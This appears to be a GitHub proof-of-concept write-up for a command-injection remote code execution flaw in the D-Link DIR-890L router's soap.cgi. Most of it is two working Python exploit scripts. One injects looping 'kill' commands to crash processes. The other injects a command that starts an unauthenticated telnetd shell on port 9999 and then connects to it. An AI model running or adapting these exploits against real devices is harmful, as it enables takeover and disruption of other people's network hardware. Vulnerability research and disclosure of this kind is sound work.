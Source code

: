 # RCE of DIR-890l

## Version: 
DIR890LA1_FW120b01

## Test Environment: 
Ubunutu 22.02, FirmAE

## Analysis:
Because of loose filter in `soap.cgi` causes this RCE

## Tips:
I don't have an actual firmware, so I used FirmAE. However, it has some bug causing `system()` can't execve most of command. So in my environment this RCE can only execute some commands like `kill`, `sleep`...

## POC:
### In my environment(DDoS)
```python
from traceback import print_tb
import logging
import http.client
import imp
import logging
import http.client
import socket
from time import sleep
import os

def http_logging():
    http.client.HTTPConnection.debuglevel=1
    logging.basicConfig()
    logging.getLogger().setLevel(logging.DEBUG)
    requests_log=logging.getLogger("request.packages.urlib3")
    requests_log.setLevel(logging.DEBUG)
    requests_log=True


def httpSUB(server, port, shell_file):
    
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "POST /soap.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n"
    request += "SOAPAction: 123#123\n"
    request += "Content-Type: text/xml\n"
    request += "Content-Length: 260\n"
    request += "SERVER_ID: 2\n\n"

    #print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    #print("request: \n\n")
    print(request)
    print(con.recv(4000))

if __name__=="__main__":
    http_logging()
    i=5000
    while(i>0):
        httpSUB("192.168.0.1", 49152, ';kill {0};'.format(i))
        i=i-1
        if i%1000==0:
            print(i)

```

### Actual firmware(get shell)
```python
from traceback import print_tb
import logging
import http.client
import imp
import logging
import http.client
import socket
from time import sleep
import os

def http_logging():
    http.client.HTTPConnection.debuglevel=1
    logging.basicConfig()
    logging.getLogger().setLevel(logging.DEBUG)
    requests_log=logging.getLogger("request.packages.urlib3")
    requests_log.setLevel(logging.DEBUG)
    requests_log=True


def httpSUB(server, port, shell_file):
    
    con = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    request = "POST /soap.cgi?service=" + str(shell_file) + " HTTP/1.0\n"
    request += "Host: " + str(server) + str(port) + "\n"
    request += "Timeout: Second-1800\n"
    request += "Accept-Encoding: gzip, deflate\n"
    request += "User-Agent: gupnp-universal-cp GUPnP/1.0.2 DLNADOC/1.50\n"
    request += "SOAPAction: 123#123\n"
    request += "Content-Type: text/xml\n"
    request += "Content-Length: 260\n"
    request += "SERVER_ID: 2\n\n"

    #print('[*] Sending Payload')
    con.connect((socket.gethostbyname(server),port))
    con.send(request.encode())
    #print("request: \n\n")
    sleep(2)
    os.system('telnet ' + str(server) + ' 9999')

if __name__=="__main__":
    http_logging()
    httpSUB("192.168.0.1", 49152, ';telnetd -p 9999 &;;')
```

## Result:
<img src="./ddos.png" style="width:250px">